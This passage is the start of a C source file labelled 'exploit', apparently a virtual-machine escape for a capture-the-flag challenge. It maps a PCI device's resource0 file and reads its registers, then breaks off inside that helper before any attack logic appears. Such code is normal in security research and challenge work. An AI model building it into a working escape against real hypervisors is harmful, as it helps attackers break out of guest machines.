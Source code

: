 ## exploit
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <string.h>
#include <errno.h>
#include <signal.h>
#include <fcntl.h>
#include <ctype.h>
#include <termios.h>
#include <sys/types.h>
#include <sys/mman.h>
#include <assert.h>

#define PRINT_ERROR \
 do { \
  fprintf(stderr, "Error at line %d, file %s (%d) [%s]\n", \
  __LINE__, __FILE__, errno, strerror(errno)); exit(1); \
 } while(0)

#define MAP_SIZE 4096UL
#define MAP_MASK (MAP_SIZE - 1)

int fd = -1;

char *filename = "/sys/devices/pci0000:00/0000:00:04.0/resource0";

//not used~
void pcimem_read(uint64_t target, char access_type, uint64_t *read_result)
{
 /* Map one page */
 void *map_base = mmap(0, MAP_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED, fd, target & ~MAP_MASK);
 if(map_base == (void *) -1) PRINT_ERROR;
 printf("PCI Memory mapped to address 0x%08lx.\n", (unsigned long) map_base);

 void *virt_addr = map_base + (target & MAP_MASK);
 int type_width = 0;

 switch(access_type)
 {
  case 'b':
   *read_result = *((uint8_t *) virt_addr);
   type_width = 1;
   break;
  case 'h':
   *read_result = *((uint16_t *) virt_addr);
   type_width = 2;
   break;
  case 'w':
   *read_result = *((uint32_t *) virt_addr);
   type_width = 4;
   break;
  case 'd':
   *read_result = *((uint64_t *) virt_addr);
   type_width = 8;
   break;
 }

 printf("Value at offset 0x%X (%p): 0x%0*lX\n", (int) target, virt_addr, type_width*2, *read_result);
 if(munmap(map_base, MAP_SIZE) == -1)
```